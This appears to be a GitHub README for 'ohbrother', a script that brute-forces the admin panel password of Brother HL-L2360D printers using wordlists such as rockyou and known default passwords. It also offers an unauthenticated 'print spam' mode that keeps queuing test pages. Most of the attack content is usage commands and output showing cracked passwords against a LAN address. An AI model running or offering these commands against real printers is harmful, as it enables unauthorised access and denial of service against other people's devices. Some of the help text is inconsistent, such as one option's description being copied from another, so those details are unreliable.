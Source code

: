 # ohbrother
Brother Printer Admin Panel Dictionary attack tool (Designed for the HL-L2360D series)
```
usage: ohbrother.py [-h] --ip-address IP_ADDRESS [--port PORT] [--wordlist WORDLIST]

Brother Printer Admin Panel Dictionary attack (Designed for the HL-L2360D series)

options:
  -h, --help            show this help message and exit
  --ip-address IP_ADDRESS, -i IP_ADDRESS
                        IP Address of the printer
  --port PORT, -p PORT  Port the admin interface is running on (default: 80)
  --dictionary-attack DICTIONARY_ATTACK, -D DICTIONARY_ATTACK
                        IP Address of the printer
  --print-spam, -S      continuously print test pages (unauthenticated)
  --wordlist WORDLIST, -W WORDLIST
                        Wordlist to use to attack the printer (default:
                        /usr/share/wordlists/rockyou.txt)
```

# Usage

## Dictionary Attack
Dictionary attack using the default wordlist
```
┌──(kali㉿kali)-[~]
└─$ python3 ohbrother.py --ip-address 192.168.0.77
[00:15:05] {/home/kali/ohbrother.py:60} INFO - [*] Starting a dictionary attack on http://192.168.0.77:80/general/status.html
[00:16:19] {/home/kali/ohbrother.py:66} INFO - [*] found correct password: shadow
```
Ohbrother checks for common default brother passwords

```
C:\Users\DrewQ\Desktop\Brother>python main.py --wordlist "C:\Users\DrewQ\Downloads\passwords.txt" --ip-address 192.168.0.77
[23:14:00] {C:\Users\DrewQ\Desktop\Brother\main.py:49} INFO - [*] default password was set: initpas
```

## Print Spam
```
C:\Users\DrewQ\Desktop\Brother>python ohbrother.py --print-spam initpass --ip-address 192.168.0.77
[23:41:13] INFO - [*] queued a test page
[23:41:16] INFO - [*] queued a test page
[23:41:19] INFO - [*] queued a test page
```
